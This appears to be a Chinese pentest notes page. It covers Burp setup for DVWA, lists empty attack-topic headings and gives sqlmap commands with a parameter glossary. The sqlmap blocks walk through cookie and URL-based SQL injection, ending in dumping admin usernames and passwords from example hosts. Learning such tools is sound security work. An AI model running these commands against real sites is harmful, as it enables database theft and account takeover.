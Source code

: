 若 Burp 无法抓取 DVWA 等本地包，代理设置中删除 `不使用代理` ：<u>localhost,127.0.0.1</u> 即可

#### 实例

##### 目录与文件扫描

##### 暴力破解后台

##### 暴力破解一句话木马

##### 配合 sqlmap 实现被动式注入发现

##### 突破文件上传

##### 数据获取测试

### sqlmap

```shell
# 网站有防注入过滤，当提交and 1=1时，返回了非法操作的提示，再在网站后面添加其他字符，只要报错，就说明有注入
# Acess 中转注入攻击
sqlmap -u http://172.16.12.2/onews.asp --cookie "id=40" --level 3 --dbs --tables
# 表示使用cookie的方式提交， --level 表示测试的等级, --dbs表示将数据库显示出来，--tables是将表名显示出来。程序员没有考虑到恶意用户会通过cookie来提交参数，因此没有调用防注入程序来过滤cookie部分，从而导致cookie注入的发生
sqlmap -u http://172.16.12.2/onews.asp --cookie "id=40" --level 3 --dbs -T admin --columns  # 指定 admin 表
sqlmap -u http://172.16.12.2/onews.asp --cookie "id=40" --level 3 --dbs -T admin -C admin password --dump # 将数据内容脱到本地
```

```shell
# 检查注入点：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11

# 爆当前数据库信息：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --current-db

# 指定库名列出所有表
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 --tables
('vhost48330' 为指定数据库名称)

# 指定库名表名列出所有字段
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin --columns
('admin' 为指定表名称)

# 指定库名表名字段dump出指定字段
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin -C ac，id，password --dump  ('ac,id,password' 为指定字段名称)
```

**参数解释**

```
* 在注入的过程中，有时候是伪静态的页面，可以使用星号表示可能存在注入的部分

--data
使用post方式提交的时候，就需要用到data参数了

-p
当我们已经事先知道哪一个参数存在注入就可以直接使用-p来指定，从而减少运行时间

--level
不同的level等级，SQLMAP所采用的策略也不近相同，当–level的参数设定为2或者2以上的时候，sqlmap会尝试注入Cookie参数；当–level参数设定为3或者3以上的时候，会尝试对User-Angent，referer进行注入。

--random-agent
使用该参数，SQLMAP会自动的添加useragent参数，如果你知道它要求你用某一种agent，你也应当用user-agent选项自己指定所需的agent
```
